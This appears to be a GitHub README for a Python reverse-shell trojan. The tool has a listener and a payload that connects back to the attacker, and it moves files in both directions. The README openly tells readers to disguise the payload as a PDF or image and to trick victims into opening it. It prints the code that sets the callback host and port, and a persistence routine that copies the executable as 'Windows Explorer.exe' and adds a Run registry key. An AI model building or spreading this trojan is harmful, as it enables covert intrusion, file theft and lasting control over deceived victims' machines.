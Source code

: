 # Python Reverse Shell For Trojan
Runs a reverse shell via TCP with capacity of download and upload any file from your machine to the victim's machine and vice versa. You can hide it in a simple file (like a pdf), and using reverse engineering, you can to get the person you send file to run the program believing that this is a normal pdf (or another) file.
The tool consists of two files: listener.py and reverse_shell.py.
## listener.py
Runs a TCP server in the attacker's machine and goes into listening mode, waiting for the connection from victim's machine.
### Usage:
`python3 listener.py [OPTIONS]`
### Flags:
- **-i, --ip:** Ip address to listening
- **-p, --p:** Port number to listening
- **-h, --help:** Show list of commands

### Commands:
Once the victim has connected to our server, we can run the commands from his machine like a normal reverse shell, but also, this tool has 4 own commands:
- **exit, Exit:** Finishes client-server connection.
- **down:** Download any file from client's side to our machine. The structure has to be down + [dest_path] + [file_name]. Example: `$down /home/user/Documents/ file.txt`. Where [dest_path] is the route where we want to download the file **(don't add a file name here, just the path)**, and [file_name] is the name of the file in the victim's machine. The tool will use [file_name] to name the downloaded file.
- **up:** Up any file from our machine to the victim's machine. The structure has to be up + [dest_path] + [file_name]. Example: `$up /home/victim_folder/Desktop/folder/ /home/our_user/file.txt`

## reverse_shell.py
Connects via TCP to listener server.  It runs once a person opens it; you can hide it in a pdf file, png, jpg, etc. Use your social engineering skills to deceive people to open it ;).
### Configuration
At the end of the code, set the ip and port where to establish the connection:
```python
try: 
    backdoor = Backdoor('HOST', PORT) # CHANGE HOST AND PORT HERE!
    backdoor.run()
except:
    sys.exit()
```
The ip and port have to be the same as you set in 'listener.py', because this is where connection will be established.
### Persistent mode
```python
def becomePersistent(self):
        fileLocation = os.environ['appdata'] + '\\Windows Explorer.exe'
        if not os.path.exists(fileLocation):
            shutil.copyfile(sys.executable, fileLocation)
            subprocess.call('reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "' + fileLocation + '"', shell=True)
```
Locate the file into a hard-to-find path and runs it every time that the system turns on. In this case, the function creates a registry of the file and runs it when the machine turns on. As the reverse shell is destined to a common user, the persistent mode is made to run into Windows system (because a common user uses Windows).

**Important:** If you want to test the persistent mode, I recommend you do it into a virtual machine to avoid some damage into your own computer.


